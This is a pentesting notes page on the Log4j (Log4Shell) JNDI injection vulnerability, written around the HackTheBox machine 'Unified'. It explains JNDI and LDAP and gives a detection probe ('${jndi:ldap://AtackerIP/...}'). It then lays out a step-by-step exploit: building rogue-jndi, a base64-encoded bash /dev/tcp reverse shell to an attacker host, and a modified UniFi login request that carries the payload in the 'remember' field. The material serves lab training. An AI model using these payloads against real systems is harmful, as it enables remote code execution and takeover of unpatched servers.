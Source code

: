 ```yaml
---
title: Log4j
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - web pentesting
  - java
  - serialization vulnerability
---
```


# Log4j

This Log4J vulnerability can be exploited by injecting operating system commands (OS Command Injection). Log4j is a popular logging library for Java created in 2001. The logging library's main purpose is to provide developers with a way to change the format and verbosity of logging through configuration files versus code. 

## What it does

What a logging library does, is instead of using print statements, the developer just uses a wrapper around the Logging class or object. So instead of using print(line), the code would look like this:

```
logging.INFO(“Application Started”)
logging.WARN(“File Uploaded”)
logging.DEBUG(“SQL Query Ran”)
```

Then the application has a configuration file which says what log levels (INFO, WARN, DEBUG, etc.) to display. This way when there is a problem with the application, the developer can enable DEBUG mode and instantly get the messages they need to identify the issue.

## Reconnaissance - Proof of Concept

The main way people have been testing if an application is vulnerable is by combining this vulnerability with JNDI.

**Java Naming and Directory Interface (JNDI)** is a Java API that allows clients to discover and look up data and objects via a name. These objects can be stored in different naming or directory services, such as Remote Method Invocation (RMI), Common Object Request Broker Architecture (CORBA), Lightweight Directory Access Protocol (LDAP), or Domain Name Service (DNS). By making calls to this API, applications locate resources and other program objects. A resource is a program object that provides connections to systems, such as database servers and messaging systems.

In other words, JNDI is a simple Java API (such as 'InitialContext.lookup(String name)') that takes just one string parameter, and if this parameter comes from an untrusted source, it could lead to remote code execution via remote class loading.

**LDAP is the acronym forLightweight Directory Access Protocol**, which is an open, vendor-neutral, industry standard application protocol for accessing and maintaining distributed directory information services over the Internet or a Network. The default port that LDAP runs on is port 389.

**Proof of concepts to see if it is vulnerable**:

**1.** Grab the request with the injectable parameter.

**2.** In the injectable parameter, inject something like this:

```
"${jndi:ldap://AtackerIP/whatever}"
```

With [tcpdump](tcpdump.md), check if the request with the payload produces some traffic to your attacker machine:

```bash
sudo tcpdump -i tun0 port 389
# -i: Select interface
# port: indicate the port where traffic is going to be captured. 
```

The tcpdump output shows a connection being received on our machine. This proves that the application is
indeed vulnerable since it is trying to connect back to us on the LDAP port 389.

## Exploitation

```
# Install Open-JDK and Maven as requirement
sudo apt install openjdk-11-jre maven

git clone https://github.com/veracode-research/rogue-jndi 

cd rogue-jndi

mvn package

# Once it's build, make a reverse shell in base64 with attacker machine and listening port
echo 'bash -c bash -i >&/dev/tcp/AtackerIP/AtackerPort 0>&1' | base64
# This will return something similar to this: YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMi80NDQ0IDA+JjEK
 
# Get out of rogue-jndi folder and
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMi80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" --hostname "10.129.96.149"
# In the bash command, copy paste your reverse shell in base64
# --hostname: Victim IP

# Now, open a terminal, launch [[netcat]] abd the listening port you defined in your payload.
```

With Burpsuite, get a request for login:

```
POST /api/login HTTP/1.1
Host: 10.129.96.149:8443
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.129.96.149:8443/manage/account/login
Content-Type: application/json; charset=utf-8
Origin: https://10.129.96.149:8443
Content-Length: 104
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"username":"lala","password":"lele","remember":false,"strict":true}
```

This request is from [HackTheBox machine: Unified](htb-unified.md). As we can read from the Unifi version exploit, the injectable parameter is "remember". So we insert there our payload and with Repeater, send the request:


```
POST /api/login HTTP/1.1
Host: 10.129.96.149:8443
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.129.96.149:8443/manage/account/login
Content-Type: application/json; charset=utf-8
Origin: https://10.129.96.149:8443
Content-Length: 104
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"username":"lala","password":"lele","remember":"${jndi:ldap://10.10.14.2:1389/o=tomcat}","strict":true}
```

Once we send that request, our jndi server will resend the reverse shell:

![jndi server](log4j.png)

And in our terminal with the nc listener we will get the reverse shell.

The misinterpretation of the User-Agent leads to a JNDI lookup which is executed as a command from the system with administrator privileges and queries a remote server controlled by the attacker, which in our case is the `Destination` in our concept of attacks. This query requests a Java class created by the attacker and is manipulated for its own purposes. The queried Java code inside the manipulated Java class gets executed in the same process, leading to a remote code execution (`RCE`) vulnerability. GovCERT.ch has created an excellent graphical representation of the Log4j vulnerability worth examining in detail. Source: https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/

![log4j](log4j_1.png)

## Related labs

[Walkthrough HackTheBox machine: Unified](htb-unified.md).


